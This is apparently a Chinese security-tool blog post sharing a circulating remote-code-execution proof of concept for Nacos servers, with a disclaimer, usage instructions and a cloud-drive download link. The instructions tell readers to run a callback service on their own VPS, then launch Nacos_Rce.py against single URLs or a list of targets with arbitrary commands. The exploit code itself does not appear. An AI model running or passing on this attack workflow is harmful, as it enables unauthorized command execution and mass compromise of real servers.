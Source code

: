 #  网传nacos_rce漏洞poc（7月15日更新）   
FFR66  Web安全工具库   2024-07-17 22:01  
  
===================================  
免责声明请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。工具来自网络，安全性自测，如有侵权请联系删除。个人微信：ivu123ivu  
0x01 工具介绍  
网传nacos_rce漏洞poc。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/8H1dCzib3UibsDDs9W5OwpsmUZNHghO7S9YwHYFc9NWeAJJ0yLGqUXx3nA0qIib7yACyjO02GwQ0AHaXpWIbEbMhw/640?wx_fmt=png&from=appmsg "")  
  
0x02 安装与使用  
1. 将config.py和service.py放在自己的vps上并运行  
```
python service.py
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/8H1dCzib3UibsDDs9W5OwpsmUZNHghO7S9R3WYoXqL1UAOMDyicxFIkc86Nu4oDpSIe1FwYpHicoJmeIjX971QUQ3w/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/8H1dCzib3UibsDDs9W5OwpsmUZNHghO7S9zfbmicHyrqmZOJD8nBOdpZvKysHBC8exKFOx5mrvtJDRq31u3RubdHA/640?wx_fmt=png&from=appmsg "")  
  
2. 单url验证  
```
python .\Nacos_Rce.py -t vps的ip地址 -p 5000 -u http://xxx.xxx.xxx -c whoami
-c whoami 可以不写，默认为whoami,可以自定义命令
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/8H1dCzib3UibsDDs9W5OwpsmUZNHghO7S9nd5GLG2FiaszHJm9vNOmw5n2YlkE81XiaIr22gHA6YIrlm2aoQgibszOw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/8H1dCzib3UibsDDs9W5OwpsmUZNHghO7S9v5SVfGJaodupBMSdpBGcmF7sOrlvlVGPopEKOHP9uoKQZTCbwCKPoQ/640?wx_fmt=png&from=appmsg "")  
  
3. 多url验证  
```
python .\Nacos_Rce.py -t vps的ip地址 -p 5000 -f ./url.txt -c whoami
-c whoami 可以不写，默认为whoami,可以自定义命令

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/8H1dCzib3UibsDDs9W5OwpsmUZNHghO7S9g2tsTBmicjricI7mG5u5YIhOibicV4BYiaFopFicRuhNEgleF64F8KN7hs0w/640?wx_fmt=png&from=appmsg "")  
  
**0x03 项目链接下载**  
  
1、点击阅读原文，从原项目地址下载。  
  
2、网盘下载链接：  
https://pan.quark.cn/s/9b76095dcfa9  
  
  
  
**·****今 日 推 荐**  
**·**  
  
  
